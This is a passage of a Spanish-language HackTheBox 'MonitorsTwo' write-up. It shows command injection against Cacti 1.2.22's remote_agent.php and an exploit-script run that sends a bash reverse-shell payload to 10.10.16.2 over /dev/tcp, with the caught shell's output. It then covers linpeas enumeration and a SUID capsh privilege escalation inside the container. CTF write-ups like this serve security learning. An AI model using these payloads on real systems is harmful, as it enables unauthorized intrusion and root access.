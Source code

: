 ```php
} else { 
}

```

Con la informacion anterior, se puede desarrollar un exploit para ejecutar comandos de forma remota, simplemente se debe encontrar un LOCAL\_DATA\_ID y un HOST\_ID valido realizando un fuzzing a la siguiente ruta:

```
/remote_agent.php?action=polldata&local_data_ids[]=$FUZZ$&host_id=$FUZZ$&poller_id=669
```

Este proceso se realiza hasta obtener un resultado como el siguiente:

```
[{"value":"0","rrd_name":"uptime","local_data_id":"6"}]
```

Para automatizar el proceso de fuzzing y envio del payload, hicé un script `cacti_1.2.22_exploit.py` el cuál puede ser revisado en mi repositorio de github (https://github.com/mind2hex/HackTheBox/Machines/Linux/MonitorsTwo).

```bash
# TERMINAL 1 iniciando el listener
nc -lvnp 1234  
listening on [any] 1234 ...

# TERMINAL 2 ejecutando el script
python3 cacti_1.2.22_exploit.py http://10.10.11.211/ "bash -c 'exec bash -i &>/dev/tcp/10.10.16.2/1234 <&1'"
1 6
[!] Sending payload: 669%3Bbash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/10.10.16.2/1234%20%3C%261%27

# TERMINAL 1 recibiendo la conexion
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.211] 47748
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 
```

### Escalación de privilegios en el contenedor

Al momento de obtener una shell, se procedió a cargar el script `linpeas.sh` para la enumeracion local.

```bash
# La shell se esta ejecutando adentro de un contenedor
╔══════════╣ Unexpected in root   
/.dockerenv
/entrypoint.sh

# el binario capsh nos permite escalar privilegios
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh  # ./capsh --gid=0 --uid=0 --
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```